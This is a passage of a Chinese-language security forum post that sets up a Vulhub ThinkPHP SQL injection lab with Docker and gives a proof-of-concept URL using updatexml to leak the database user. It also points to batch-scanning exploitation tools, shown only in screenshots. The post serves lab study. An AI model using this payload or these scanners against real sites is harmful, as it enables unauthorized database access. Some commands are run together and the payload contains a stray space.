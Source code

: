 乌班图那边有点问题

kali安装docker

```php
sudo apt install docker-compose
```

```php
sudo systemctl start docker #启动dockercd /vulhub-master/thinkphp/in-sqlinjectionsudo docker-compose up -d
```

![image-20210517102044583](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7dd552ed0aeeb4b64830ed46945a5d64145ec062.png)

![image-20210517102330781](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9502d0c1402dd1189c6dff3044fad57edb6d4479.png)

进行访问

#### 漏洞验证

```php
/index.php?ids[]=1&amp;ids[]=2
```

![image-20210517104950942](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3afedcd2ad5f4c10e4c6030fffa6077b369f6bfd.png)

#### Poc

```php
/index.php?ids[0,updatex ml(0,concat(0xa,user()),0)]=1
```

![image-20210517105047474](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0ffd17dfd6f867a725b1cd14edfa4717fb9649f5.png)

枚举到数据库的账号和密码

Thinkphp自动化武器
-------------

### Thinkphp综合利用工具

![image-20210517103651341](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7cfc7365f7da4bd695ff870ede9c198386f4b19a.png)

### ThinkPHPBatchPoc群扫

执行看一下

![image-20210517104229137](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e7d78eab3d71b5f1658af019bf06f4ac9407b54.png)

可以去底层看一下

我们可以手动添加Poc

![image-20210517104321007](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c086afbde944ddd102bc0607e2717e68771692d2.png)
